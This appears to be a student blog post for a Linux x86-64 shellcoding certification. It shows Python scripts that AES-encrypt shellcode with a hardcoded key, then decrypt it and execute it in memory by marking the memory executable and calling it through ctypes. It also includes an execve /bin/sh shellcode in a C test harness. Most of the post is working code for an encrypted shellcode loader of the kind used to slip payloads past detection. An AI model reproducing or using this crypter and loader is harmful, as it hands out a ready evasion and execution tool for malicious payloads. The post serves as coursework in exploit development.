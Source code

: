 Introduction
------------
The Advanced Encryption Standard (AES) is a symmetric block cipher encryption algorithm that uses the same key (also known as secret-key) for encryption and decryption where each cipher encrypts and decrypts data in blocks of `128-bit` using cryptographic keys of `128-bit`, `192-bit` and `256-bit`, respectively. AES consist of multiple modes of operation to preform encryption some of which requires random Initialization Vector (IV). In this post we’ll look at shellcode encryption/decryption using AES with `128-bit` key and Electronic Codebook (ECB) mode of operation.

![](/assets/images/AES_Shellcode_Crypter_Linux_x86_64/Forumla.png)

Crypter
-------
We will have [pycrypto](https://pypi.org/project/pycrypto/) python library do all of the heavy lifting for us. I did add two `lambda` one line functions to pad the plaintext and `base64` encode the final ciphertext.

```python
#!/usr/bin/env python

from Crypto.Cipher import AES
import sys
import os
import base64

if len(sys.argv) != 2:
	print '[!] Usage: ' + sys.argv[0] + ' <shellcode>'
	sys.exit(1)

Shellcode = sys.argv[1]

# encrypt shellcode
BlockSize = 16
Seperation ='{'
Pad = lambda s: s + (BlockSize - len(s) % BlockSize) * Seperation
Encode = lambda c, s: base64.b64encode(c.encrypt(Pad(s)))
Key = '_@ihack4falafel_'
print 'Encryption Key     : ' + Key
Cipher = AES.new(Key)
Encoded = Encode (Cipher, Shellcode)
print 'Encrypted Shellcode: ' + Encoded
```

Decrypter
---------
The decrypter first `base64` decode the ciphertext and then decrypt it to reproduce the original plaintext that is the shellcode. Once the shellcode is restored we will use `ctypes` python library to execute it.

```python
#!/usr/bin/env python

from Crypto.Cipher import AES
from ctypes import *
import sys
import os
import base64

if len(sys.argv) != 2:
	print '[!] Usage: ' + sys.argv[0] + ' <shellcode>'
	sys.exit(1)

Shellcode = sys.argv[1]

# decrypt shellcode
Seperation ='{'
decode = lambda c, e: c.decrypt(base64.b64decode(e)).rstrip(Seperation)
Key = '_@ihack4falafel_'
print 'Encryption Key     : ' + Key
Cipher = AES.new(Key)
decoded = decode (Cipher, Shellcode)
print 'Decrypted Shellcode: ' + decoded

# execute decrypted shellcode using ctypes
libc = CDLL('libc.so.6')
RawShellcode = decoded.replace('\\x','').decode('hex')
sc = c_char_p(RawShellcode)
size = len(RawShellcode)
addr = c_void_p(libc.valloc(size))
memmove(addr, sc, size)
libc.mprotect(addr, size, 0x7)
run = cast(addr, CFUNCTYPE(c_void_p))
run()
```

I’ve created `execve()` shellcode that spawns `/bin/sh` to test with.

```nasm
/*
section .text

global _start

_start:
 	push rax
	cdq
	push rdx
	pop rsi
	mov rbx,'/bin//sh'
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall
*/

#include<stdio.h>
#include<string.h>
 
 
unsigned char code[] = \
"\x50\x99\x52\x5e\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";

main()
{
 
printf("Shellcode Length:  %d\n", (int)strlen(code));
 
int (*ret)() = (int(*)())code;
 
ret();
 
}
```

Let’s test the scripts using the above shellcode.

![](/assets/images/AES_Shellcode_Crypter_Linux_x86_64/AES-Demo.gif)

If you would like to convert the above python scripts to an executable, please refer to my SLAE32 blog series where I use `pyinstaller` to preform said conversion.

Closing Thoughts
----------------
In this post we learned about AES and how powerful python can be. This post marks the end of my SLAE64 series, I hope you enjoyed it and learned something along the way. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%207). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
